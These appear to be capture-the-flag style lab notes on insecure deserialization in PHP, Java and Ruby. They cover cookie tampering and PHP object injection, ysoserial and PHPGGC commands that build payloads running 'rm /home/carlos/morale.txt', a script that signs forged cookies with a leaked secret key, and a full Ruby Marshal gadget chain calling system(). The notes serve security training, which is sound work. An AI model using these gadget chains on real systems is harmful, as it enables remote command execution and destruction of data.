 ### Modifying serialized objects

In the first exercise, we see a cookie with our session info, and a value b:0.
This is setting the admin = to false. But we can change the value to 1, with burp, and this opens up the possibility to check the admin portal.

From there, the application reads as we are admins, and gave us privilege to delete users accounts

`/admin/delete?username=carlos`

---
### Modifying serialized data types

The solution for this exercise is quite similar to the previous one.
But in this case, we have the decoded PHP value with different types of data, as follows:
```php
O:4:"User":2:
{
s:8:"username";
s:13:"administrator";
s:12:"access_token";
i:0;
}
```

In fact, this is the serialized content of the PHP.
You can serialize objects with the function 'serialize()', and convert data types to string representation. This data can be stored, transmitted or deserialized back with 'unserialize()'. After the unserialization, you can access the properties and methods of the "User" object as normal with any other object in PHP.

In the example above, we can break it down like this:
`"O" - Indicates that the following data is an object`
`"4" - The lenght of the class name (User)`
`"User" Is the class name`
`"2" - This is the number of properties in the object`

This 2 properties are "Username" and "Access Token"
```php
{
s:8:"username";s:13:"administrator";
s:12:"access_token";i:0;
}
```

---
### Using application functionality to exploit insecure deserialization

This exercise will abuse the serialization bug, to impersonate a user trough the "avatar_link" parameter. By tricking the server to think we are another user.

We have this encoded in the cookie:

```php
O:4:"User":3:
{
s:8:"username";
s:6:"wiener";
s:12:"access_token";
s:32:"t7lxrrzxx394nr2ssmzlvjvej0qv0wvg";
s:11:"avatar_link";
s:19:"users/wiener/avatar";
}
```

So, when we go to "Delete Account", the server will delete the user "wiener", with the provided access token for this account, and instead of deleting our avatar at "users/wiener/avatar", it will be deleting "home/carlos/morale.txt", which is the target file.

---
### Arbitrary object injection in PHP 

Here you can see the cookie is set to a serialized object with your user info, like this: 

```php
O:4:"User":2:
{
s:8:"username";
s:6:"wiener";
s:12:"access_token";
s:32:"fgkfmi087jtd7h97nb0is740oge6uu53";
}
```

In the target, you can see its calling this file at `/libs/customTemplate.php` with a destruct function. So, you can see you nede to modify the session cookie valie, so the object can be sanitized and then delete the desired file. 

Replace your session cookie with: `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

That's it.

---
### Exploiting Java deserialization with Apache Commons

Download ysoserial, and use this command:
```text
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 > cookie
```

This is somehow printing also some new lines, so you need to paste it on the cookie section, get it all green, and then URL encode all characters. 

I think can get it right using this after `paste -s -d '' <YOUR-FILE> > output_file`

---
### Exploiting PHP deserialization with a pre-built gadget chain

Go to /cgi-bin/phpinfo.php, and get the SECRET_KEY=0vun5heha3z7cny9a3u0oxovc5qv7vi7

You can see your cookie is a PHP object.

Using PHPGCC, use this command to generate a payload to delete morale.txt file
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

And use the output to that in this script:
```php
<?php $object = "OBJECT-GENERATED-BY-PHPGGC"; $secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); echo $cookie;
```

Replace the values, and use that cookie on your burp repeater request. You solved the lab.

---
### Exploiting Ruby deserialization using a documented gadget chain

This is the correct script:
```ruby
require 'base64'
require 'net/http'
require 'rubygems/package'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

# Encode the payload in base64
encoded_payload = Base64.encode64(payload)
puts encoded_payload

```

This output you rm the new lines with `echo "OUTPUT" | tr -d "\n\r"`

In decoder, encode in URL. Replace your cookie with this. Solved